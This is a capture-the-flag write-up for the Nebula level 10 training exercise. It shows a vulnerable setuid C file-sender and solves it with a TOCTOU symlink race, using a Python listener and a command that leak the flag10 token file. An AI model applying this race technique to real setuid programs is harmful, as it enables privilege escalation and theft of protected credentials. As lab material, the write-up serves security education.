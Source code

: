 # Nebula - [LEVEL 10](https://exploit.education/nebula/level-10/)

Level Description:

![level.JPG](images/level.JPG)

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

# Nebula - [LEVEL 10](https://exploit.education/nebula/level-10/) - Solution

So this binary will upload any file given file (on port ```18211```).
We can see on the code the call of ```access``` function.

The ```access()``` system call checks whether the real user ID or group ID has permissions to
access a file, and returns 0 if it does. This system call is usually used by set-uid program before
accessing a file on behalf of the real user ID (not the effective user ID) ([Reference](https://web.ecs.syr.edu/~wedu/Teaching/IntrCompSec/LectureNotes_New/Race_Condition.pdf)).

So It's meaning if we have access to the file we can pass the ```access``` check.

We can create a file called ```/tmp/sym/test```, After ```access``` system call checks the file we need to change the file to point (symlink) on ```/home/flag10/token``` file, This type of attacks called ```Time-of-Check, Time-of-Use (TOCTOU)``` (You can read about that on the same reference before).

Let's open another shell as ```flag10```.

On this shell, we can run the following ```python``` code which creates a socket and listen to port ```18211```, At the moment we get a connection we need to create the symlink to ```/home/flag10/token```:

```python
import socket
import sys
import os


# Create a TCP/IP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Bind the socket to the address given on the command line
server_name = '127.0.0.1'
server_address = (server_name, 18211)
print >>sys.stderr, 'starting up on %s port %s' % server_address
sock.bind(server_address)
sock.listen(1)

while True:
    print >>sys.stderr, 'waiting for a connection'
    connection, client_address = sock.accept()
    os.system('ln -fs /home/flag10/token /tmp/sym/mytoken')
    try:
        print >>sys.stderr, 'client connected:', client_address
        while True:
            data = connection.recv(256)
            print >>sys.stderr, 'received "%s"' % data
            if not data:
                break
    finally:
        connection.close()
```

And run it:

![listen.JPG](images/listen.JPG)

On the first shell let's run:
```console
./flag10 /tmp/sym/mytoken 127.0.0.1
```

![run.JPG](images/run.JPG)

And we get the flag:

![flag.JPG](images/flag.JPG)
